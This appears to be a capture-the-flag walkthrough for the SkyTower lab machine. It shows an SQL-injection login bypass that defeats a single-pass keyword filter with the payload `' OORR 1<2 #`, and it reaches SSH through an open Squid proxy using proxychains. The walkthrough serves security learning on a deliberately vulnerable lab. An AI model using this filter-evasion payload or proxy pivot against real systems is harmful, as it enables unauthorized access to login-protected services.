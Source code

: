 On opening port 80 in a web browser, we are presented with a login screen.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/skytower/web.png){: .align-center}

Some initial tests shows that the website is vulnerable to `sql injection`

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/skytower/sql.png){: .align-center}

Let's do some additional tests using `burpsuite` and see if we can bypass the login using `' OR 1=1 #`.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/skytower/burp.png){: .align-center}

We can see that the application is blocking some keywords like `OR`, `AND` and `=`.

On further inspection, we can see that the application filters out the keywords just once. We can bypass the filtering for `OR` by using `OORR`. This way, when the system filters out the `OR` in the middle , we still get the `OR` keyword. `1=1` can be substituted by `1<2`. Our payload for login bypass will be `' OORR 1<2 #`

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/skytower/sol.png){: .align-center}

And we have successfully bypassed the login page and we are presented with some `ssh` credentials. However there is no `ssh` port open on the system.

## Low Shell

### Proxychains

There is a `squid` server running on port `3128`. We can try redirecting our traffic using this to proxy to login to `ssh`.

Add the `squid` proxy in the `conf` file.

```bash
kali@kali:~$ tail /etc/proxychains.conf 
#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
http 192.168.100.4 3128
```

Connect to `ssh` via proxy.

```bash
kali@kali:~$ proxychains ssh john@192.168.100.4
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.100.4:3128-<><>-192.168.100.4:22-<><>-OK
john@192.168.100.4's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed May  6 23:15:58 2020 from 192.168.100.3

Funds have been withdrawn
Connection to 192.168.100.4 closed.
```